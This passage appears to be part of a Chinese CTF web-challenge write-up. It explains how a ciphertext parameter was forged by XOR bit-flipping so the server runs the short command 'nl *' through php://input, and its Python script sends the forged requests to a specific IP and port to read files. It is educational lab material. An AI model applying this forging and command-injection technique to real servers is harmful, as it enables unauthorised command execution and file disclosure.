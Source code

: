 ```php
"Welcome to the code system!This is a test string" => 2363303cf2fae8b1bbe443fe2d12947e5abcf9c0ceb12ce5fd3a43504de0bf0621b9917a715dad17f828ff0ace6ec816
```

- 查阅资料后，编写脚本。这里有一个坑的地方是，只有4个字节可以执行命令，于是用` nl * `读取所有文件

```python
import requests
a = 'is a test string'
b = '//input&ccc=nl *'
c = '5abcf9c0ceb12ce5fd3a43504de0bf0621b9917a715dad17f828ff0ace6ec816'
res = ''
for i in range(int(len(a))):
	t1 = c[i*2:(i+1)*2]
	t2 = a[i]
	t3 = b[i]
	t4 = str(hex(int(ord(chr(int(t1,16)))^ord(t2)^ord(t3)))).replace("0x","")
	if len(t4) == 1 :
		t4 = '0'+t4
	print(t1,t2,t3,t4)
	res += t4
tmp = res 
res = '2363303cf2fae8b1bbe443fe2d12947e' + res + '21b9917a715dad17f828ff0ace6ec816'
print(res)
url = 'http://120.79.228.110:8878/?s='+res
b = 'uu=admin&ff=php:'
html = requests.get(url).text
print(html)
a = html[16:32]
print(len(a))
c = res
res = ''
for i in range(int(len(a))):
	t1 = c[i*2:(i+1)*2]
	t2 = a[i]
	t3 = b[i]
	t4 = str(hex(int(ord(chr(int(t1,16)))^ord(t2)^ord(t3)))).replace("0x","")
	if len(t4) == 1 :
		t4 = '0'+t4
	print(t1,t2,t3,t4)
	res += t4
res = res+tmp+'21b9917a715dad17f828ff0ace6ec816'
print(res)
data = 'phpinfo'
url = 'http://120.79.228.110:8878/?s='+res
html = requests.post(url,data=data).text
print(html)
```

---

### web8
